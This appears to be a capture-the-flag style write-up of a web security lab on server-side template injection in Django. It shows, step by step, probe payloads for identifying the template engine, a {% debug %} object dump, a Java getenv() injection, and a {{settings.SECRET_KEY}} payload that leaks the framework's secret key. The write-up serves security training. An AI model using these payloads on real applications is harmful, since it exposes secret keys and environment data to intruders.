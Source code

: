 Many templates expose a `self` or `environment` object of some kind, which acts like a namespace and contains all objects, methods, and attributes which are supported by the template engine.

If such objects exists, you can use it to generate a list of objects that are in scope. For example, in Java-based templating languages you can sometimes list all variables using this injection:

`${T(java.lang.System).getenv()}`

This can create a shortlist of potentially interesting objects and methods to investigate further, but also `Burp Intruder` provides a built-in wordlist for brute-forcing variable names.

There are also some site-specific objects supplied by the web developer, and they are likely to contain sensitive information of exploitable methods. 

You may need to study an object's behavior in the context of each distinct template before you find a way to exploit it.

Also, not always RCE is possible, but still there are many exploits that can be available such as `File Path Traversal.`

### Lab.4 Server-Side Template Injection with Information Disclosure via User-Supplied Objects

**Description**

The lab is vulnerable due to the way an object is being passed into the template, and it can be exploited to access sensitive data. The goal of the lab is to access sensitive data, so to solve the lab, you need to steal and submit the framework's secret key.

`content-manager: C0nt3ntM4n4g3r` are the credentials which you can use to login.

**Solution**

I access the lab with the given credentials.

In the homepage I click on one of the articles, and there there is a button to `Edit Template`.

After clicking on that I have the syntax used to create the description.

![Pasted_image_20250126190945](https://github.com/user-attachments/assets/a099ad76-f4dd-4878-a49b-7866af9a3e75)

Let's delete everything above the last line, to keep it simple, and replace the `product.stock` with something that is not known, doesn't exist there, such as my name `halil`. And it should look like:

`<p>Hurry! Only {{halil}} left of {{product.name}} at {{product.price}}.</p>`

That didn't work, as I don't see anything that would give me some information there. It's only:

`Hurry! Only left of The Trolley-ON at $46.42.`

I send that request to the Intruder, and I see that the body is:
`%3Cp%3EHurry%21+Only+%7B%7Bhalil%7D%7D+left+of+%7B%7Bproduct.name%7D%7D+at+%7B%7Bproduct.price%7D%7D.%3C%2Fp%3E`

After decoding that with the `cyberchef` from `URL decoder` I see `<p>Hurry! Only {{halil}} left of {{product.name}} at {{product.price}}.</p>`.

Now, I add a payload position on `%7B%7Bhalil%7D%7D`, and with the Sniper Attack I add these to the list payload:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

In the payload processing I add a rule to convert them to URL.

I got `302 Found` and I just visit the article page, and I see that I got an error message, mentioning `DJANGO`.

So, now I have the template engine used here.

In Django you can invoke the `debug` by writing `{% debug %}` and url-encoded this is: `%7B%25%20debug%20%25%7D`.

After refreshing the page I got a list of objects and properties.

```text
Hurry! Only {'product': {'name': 'The Trolley-ON', 'price': '$46.42', 'stock': 594}, 'settings': }{'False': False, 'None': None, 'True': True} {'Cookie': , 'HTMLParser': , 'SocketServer': , 'StringIO': , 'UserDict': , 'UserList': , '__builtin__': , '__future__': , '__main__': , '_abcoll': , '_ast': , '_bisect': , '_codecs': , '_collections': , '_ctypes': , '_functools': , '_hashlib': , '_heapq': , '_io': , '_json': , '_locale': , '_random': , '_socket': , '_sre': , '_ssl': , '_struct': , '_sysconfigdata': , '_sysconfigdata_nd': , '_warnings': , '_weakref': , '_weakrefset': , 'abc': , 'argparse': , 'array': , 'ast': , 'atexit': , 'base64': , 'binascii': , 'bisect': , 'bz2': , 'cPickle': , 'cStringIO': , 'calendar': , 'cgi': , 'codecs': , 'collections': , 'contextlib': , 'copy': , 'copy_reg': , 'ctypes': , 'ctypes._ctypes': None, 'ctypes._endian': , 'ctypes.ctypes': None, 'ctypes.errno': None, 'ctypes.os': None, 'ctypes.re': None, 'ctypes.struct': None, 'ctypes.subprocess': None, 'ctypes.sys': None, 'ctypes.tempfile': None, 'ctypes.util': , 'datetime': , 'decimal': , 'dis': , 'django': , 'django.__future__': None, 'django.apps': , 'django.apps.collections': None, 'django.apps.config': , 'django.apps.django': None, 'django.apps.functools': None, 'django.apps.importlib': None, 'django.apps.os': None, 'django.apps.registry': , 'django.apps.sys': None, 'django.apps.threading': None, 'django.apps.warnings': None, 'django.conf': , 'django.conf.__future__': None, 'django.conf.django': None, 'django.conf.global_settings': , 'django.conf.importlib': None, 'django.conf.os': None, 'django.conf.time': None, 'django.core': , 'django.core.__future__': None, 'django.core.base64': None, 'django.core.cache': , 'django.core.cache.__future__': None, 'django.core.cache.backends': , 'django.core.cache.backends.__future__': None, 'django.core.cache.backends.base': , 'django.core.cache.backends.django': None, 'django.core.cache.backends.time': None,
...
```

Here I see that I can access the `settings` object and I see in the documentations that it has also a property `SECRET_KEY` which can be accessed by `{{settings.SECRET_KEY}}` and if url encoded it is: `%7B%7Bsettings.SECRET_KEY%7D%7D`.

So, I put that and send the request again, the body should look like:
`csrf=igQTSvjyfggm8DjIVxJ6xFSeIZyWE0CT&template=%3Cp%3EHurry%21+Only+%7B%7Bsettings.SECRET_KEY%7D%7D+left+of+%7B%7Bproduct.name%7D%7D+at+%7B%7Bproduct.price%7D%7D.%3C%2Fp%3E&template-action=save`

After checking the page, I see the code: `Hurry! Only 82v97tio2h8tpg5a0xs5x4cfg6qy2lv5 left of The Trolley-ON at $46.42.` which I submit, and the lab is solved.
